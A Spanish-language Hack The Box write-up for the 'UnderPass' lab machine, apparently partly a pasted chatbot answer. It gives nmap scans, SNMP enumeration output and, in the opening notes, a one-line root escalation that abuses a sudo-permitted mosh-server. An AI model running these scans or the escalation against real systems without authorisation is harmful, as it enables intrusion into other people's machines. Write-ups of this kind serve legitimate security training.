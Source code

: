 

UnDerPass.htb is the only daloradius server in the basin!







export IP=10.10.11.48
ping -c2 $IP 
sudo nmap -Pn -sS $IP -oA scan_TCP
sudo nmap -p22,80 -sSCV $IP -oA scan_TCP_services
sudo nmap -sU -F $IP -oA scan_UDP


mosh --server="sudo /usr/bin/mosh-server" 127.0.0.1


Aquí tienes el esquema final actualizado con la técnica de escalada de privilegios mediante **mosh-server** y la obtención de la flag de root:
### **HTB: UnderPass Writeup**  
### **1. Introducción**  
- **Nivel de dificultad:** Fácil  
- **Dirección IP:** 10.10.11.48  
- **Objetivo:** Obtener la bandera de usuario y la de root.  
- **Herramientas utilizadas:** *nmap, snmp-check, gobuster, hashid, john the ripper*  
- **Breve resumen:** En este writeup, describimos cómo comprometer la máquina **UnderPass** utilizando la enumeración SNMP, la explotación de credenciales por defecto de *daloRADIUS*, el cracking de un hash MD5 para obtener acceso SSH y la explotación del servicio **mosh-server** para escalar privilegios a root.
### **2. Reconocimiento Inicial**  
#### **2.1. Escaneo de Puertos con Nmap**  
- **Escaneo TCP completo:**  
```bash
sudo nmap -Pn -sS 10.10.11.48 -oA scan_TCP
```
  - *Resultados:* Detección de puertos abiertos como 22 (SSH) y 80 (HTTP).

- **Escaneo de servicios específicos (SSH y HTTP):**  
```bash
sudo nmap -p22,80 -sSCV 10.10.11.48 -oA scan_TCP_services
```
  - *Resultados:* Identificación de servicios corriendo en esos puertos.

- **Escaneo rápido de puertos UDP:**  
```bash
sudo nmap -sU -F 10.10.11.48 -oA scan_UDP
```
  - *Resultados:* Descubrimiento del servicio SNMP en el puerto 161.
### **3. Enumeración de Servicios**  
#### **3.1. Enumeración SNMP**  
- **Comando utilizado con snmp-check:**  
```bash
snmp-check -t 10.10.11.48
```
- **Resultados obtenidos:**  
  - **Hostname:** *UnDerPass.htb* (único servidor *daloRADIUS* en la red).  
  - **Sistema:** *Linux underpass 5.15.0-126-generic (Ubuntu)*.  
  - **Contacto:** *steve@underpass.htb*.  
  - **Ubicación:** *Nevada, U.S.A.*  
